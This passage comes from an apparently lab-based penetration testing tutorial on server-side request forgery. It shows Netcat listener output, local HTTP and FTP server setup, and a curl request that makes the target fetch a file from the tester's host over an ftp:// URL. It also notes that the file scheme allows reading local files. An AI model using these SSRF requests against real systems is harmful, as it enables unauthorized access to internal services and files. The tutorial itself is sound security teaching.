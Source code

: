 We will receive the following into our Netcat listener confirming the SSRF vulnerability via a request issued by the target server using [Python-urllib](https://docs.python.org/3.8/library/urllib.html):

#### Netcat Listener - Confirming SSRF

```shell
Connection received on <TARGET IP> 49852 GET / HTTP/1.1 Accept-Encoding: identity Host: <VPN/TUN Adapter IP>:8080 User-Agent: Python-urllib/3.8 Connection: close
```

Reading the [Python-urllib](https://docs.python.org/3.8/library/urllib.html) documentation, we can see it supports `file`, `http` and `ftp` schemas. So, apart from issuing HTTP requests to other services on behalf of the target application, we can also read local files via the `file` schema and remote files using `ftp`.

We can test this functionality through the steps below:

1.  Create a file called index.html

Code: html

```html
<html> </body> <a>SSRF</a> <body> <html>
```

2.  Inside the directory where index.html is located, start an HTTP server using the following command

#### Start Python HTTP Server

```shell
p3ta@htb[/htb]$ python3 -m http.server 9090
```

3.  Inside the directory where index.html is located, start an FTP Server via the following command

#### Start FTP Server

```shell
p3ta@htb[/htb]$ sudo pip3 install twisted
$ sudo python3 -m twisted ftp -p 21 -r .
```

4.  Retrieve index.html through the target application using the `ftp` schema, as follows

#### Retrieving a remote file through the target application - FTP Schema

```shell
p3ta@htb[/htb]$ curl -i -s "http://<TARGET IP>/load?q=ftp://<VPN/TUN Adapter IP>/index.html"

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 41
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 11:21:09 GMT

<html>
</body>
<a>SSRF</a>
<body>
<html>
```
